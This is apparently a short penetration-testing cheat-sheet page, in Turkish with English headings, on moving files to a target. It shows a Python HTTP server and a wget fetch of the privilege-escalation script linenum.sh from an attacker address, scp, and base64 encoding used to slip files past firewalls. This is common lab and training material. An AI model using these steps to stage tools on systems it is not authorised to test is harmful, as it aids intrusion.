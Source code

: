 ```yaml
---
icon: material/circle-small
search:
  boost: 2
---
```


# Transferring Files

## Using wget

Öncelikle aktarmamız gereken dosyayı içeren dizin içinde bir Python HTTP sunucusu çalıştırıyoruz:

```bash
cd /tmp && python3 -m http.server 8000
```

Artık dosyayı indirebiliriz:

```bash
wget http://10.10.14.1:8000/linenum.sh
```

## Using SCP

```bash
scp linenum.sh user@remotehost:/tmp/linenum.sh
```

## Using Base64

Bazı durumlarda uzak bilgisayar dosya indirmemizi engelleyen güvenlik duvarı korumalarına sahip olabilir. Bu tür bir durumda dosyayı Base64 biçiminde kodlarız:

```bash
base64 file -w 0
```

Ardından Base64 dizesini uzak sunucuya yapıştırırız, kodunu çözeriz ve çıktıyı, bir dosyaya aktarırız:

```bash
echo 'I2luY2x1ZGUgPHN0ZGlvLmg+CgppbnQgbWFpbigpewoJcHJpbnRmKCJoZWxsbywgd29ybGRcbiIpOwoJcmV0dXJuIDA7Cn0K' | base64 -d > file
```
